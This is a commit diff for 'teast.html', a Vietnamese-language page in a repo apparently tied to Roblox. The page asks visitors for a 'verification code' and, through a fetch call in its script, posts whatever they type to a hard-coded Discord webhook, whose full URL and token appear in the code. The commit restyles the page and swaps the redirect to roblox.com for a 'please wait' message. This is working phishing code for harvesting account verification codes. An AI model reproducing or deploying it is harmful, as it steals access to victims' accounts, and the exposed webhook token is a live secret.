

Before and after one commit to Tungsten-Vet/Boost_Roblox_Web_Joinning, a plain HTML site: page teast.html in a window 1280 px wide. Shown: the part 196-496 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update teast.html

```diff
--- a/teast.html
+++ b/teast.html
@@ -3,19 +3,73 @@
 <head>
   <meta charset="UTF-8">
   <title>Gửi dữ liệu đến webhook</title>
+  <style>
+    body {
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      justify-content: center;
+      height: 100vh;
+      font-family: sans-serif;
+      background-color: #131313;
+      color: white;
+      margin: 0;
+    }
+
+    input, button {
+      padding: 12px 20px;
+      font-size: 16px;
+      margin: 10px;
+      border-radius: 6px;
+      border: none;
+      outline: none;
+    }
+
+    input {
+      width: 300px;
+      background-color: #1c1f24;
+      color: white;
+      border: 1px solid #555;
+    }
+
+    input::placeholder {
+      color: #888;
+    }
+
+    button {
+      background-color: #335fff;
+      color: white;
+      cursor: pointer;
+      transition: background-color 0.3s;
+    }
+
+    button:hover {
+      background-color: #2a4bf0;
+    }
+
+    #message {
+      margin-top: 20px;
+      font-size: 16px;
+      text-align: center;
+    }
+  </style>
 </head>
-<body style="display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; font-family: sans-serif;">
+<body>
 
-  <input id="myInput" type="text" placeholder="Nhập văn bản cần gửi" style="padding: 10px; width: 300px; font-size: 16px; margin-bottom: 20px;" />
-  <button onclick="sendData()" style="padding: 10px 20px; font-size: 16px; background-color: #4CAF50; color: white; border: none; border-radius: 6px;">Gửi đến webhook</button>
+  <input id="myInput" type="text" placeholder="Nhập mã xác minh" />
+  <button id="submitButton">Gửi mã xác minh</button>
+
+  <div id="message"></div>
 
   <script>
     function sendData() {
-      const inputValue = document.getElementById("myInput").value;
-      const webhookURL = "https://discord.com/api/webhooks/1364096814919454730/Y0bWQllAa_JKq_aVcRjKnWtkzu08LukIa6sAKqzB15zEUUEBL2U5NlE9wGbkbQfT-1tD"; // 👉 Thay bằng URL webhook thật
+      const inputValue = document.getElementById("myInput").value.trim();
+      const webhookURL = "https://discord.com/api/webhooks/1364096814919454730/Y0bWQllAa_JKq_aVcRjKnWtkzu08LukIa6sAKqzB15zEUUEBL2U5NlE9wGbkbQfT-1tD";
+      const messageBox = document.getElementById("message");
 
       if (!inputValue) {
-        alert("Vui lòng nhập văn bản.");
+        messageBox.textContent = "⚠️ Vui lòng nhập mã xác minh.";
+        messageBox.style.color = "orange";
         return;
       }
 
@@ -25,17 +79,22 @@
           "Content-Type": "application/json"
         },
         body: JSON.stringify({
-          content: "Dữ liệu người dùng: " + inputValue
+          content: "🔐 Mã xác minh từ người dùng: `" + inputValue + "`"
         })
       })
       .then(() => {
-        // Sau khi gửi xong, chuyển hướng
-        window.location.href = "https://roblox.com"; // 👉 Đổi URL nếu muốn chuyển đến nơi khác
+        messageBox.textContent = "♻ Vui lòng chờ...";
+        messageBox.style.color = "lightgreen";
       })
       .catch(err => {
-        alert("Lỗi khi gửi: " + err);
+        messageBox.textContent = "❌ Lỗi khi gửi: " + err;
+        messageBox.style.color = "red";
       });
     }
+
+    // Đảm bảo rằng hàm sendData được gắn vào sự kiện click của nút sau khi trang tải
+    document.getElementById("submitButton").addEventListener("click", sendData);
   </script>
+
 </body>
 </html>
```
